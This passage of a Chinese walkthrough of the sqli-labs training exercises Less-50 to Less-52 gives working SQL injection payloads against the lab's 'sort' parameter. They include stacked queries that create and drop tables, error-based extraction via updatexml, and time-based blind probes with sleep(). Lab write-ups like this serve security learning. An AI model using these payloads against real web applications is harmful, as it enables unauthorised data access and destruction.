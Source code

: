 

## 方法三 堆叠注入
**创建表**<br />http://www.web.com/sql/Less-50/?sort=1; create table sqli50 like users;--+<br />在数据库中查看否成功创建<br />![](https://img-blog.csdnimg.cn/20200727151341447.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=FZOkW&originHeight=255&originWidth=333&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**删除表**<br />http://www.web.com/sql/Less-50/?sort=1; drop table sqli50;--+

在数据库中查看是否成功删除<br />![](https://img-blog.csdnimg.cn/20200727151705658.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=ZUjub&originHeight=244&originWidth=304&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


# Sqli-labs-Less-51
![](https://img-blog.csdnimg.cn/20200727151909825.png#crop=0&crop=0&crop=1&crop=1&id=UoZsl&originHeight=102&originWidth=1129&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查找注入点**<br />http://www.web.com/sql/Less-51/?sort=1'<br />报错，并显示我们多了一个'<br />![](https://img-blog.csdnimg.cn/2020072715394066.png#crop=0&crop=0&crop=1&crop=1&id=BTD23&originHeight=58&originWidth=1155&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**进行注释**<br />http://www.web.com/sql/Less-51/?sort=1'--+<br />成功，说明存在注入点<br />![](https://img-blog.csdnimg.cn/20200727154035820.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=TzU6V&originHeight=225&originWidth=313&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

## 方法一 时间盲注
**判断当前数据库长度**<br />http://www.web.com/sql/Less-51/?sort=1' and if(length(database())=8,1,sleep(2))--+<br />以下步骤与Sqli-labs-Less-50中的时间盲注相同，不同的是对参数的处理

## 方法二 报错注入
**查看当前库**<br />http://www.web.com/sql/Less-51/?sort=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+<br />![](https://img-blog.csdnimg.cn/20200727154455878.png#crop=0&crop=0&crop=1&crop=1&id=r7yVq&originHeight=98&originWidth=311&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
以下步骤与Sqli-labs-Less-50中的报错注入相同，不同的是对参数的处理

## 方法三 堆叠注入
堆叠注入步骤与Sqli-labs-Less-50中的堆叠注入相同，不同的是对参数的处理


# Sqli-labs-Less-52
![](https://img-blog.csdnimg.cn/20200727154640235.png#crop=0&crop=0&crop=1&crop=1&id=ejZle&originHeight=90&originWidth=1136&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

## 方法一 时间盲注
判断注入点<br />http://www.web.com/sql/Less-52/?sort=1'--+<br />报错，并且没有报错回显（不能使用报错注入），去掉'<br />http://www.web.com/sql/Less-52/?sort=1--+<br />成功<br />![](https://img-blog.csdnimg.cn/2020072715512196.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=jOnui&originHeight=369&originWidth=375&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
以下步骤与Sqli-labs-Less-50中的时间盲注相同，不进行详细叙述
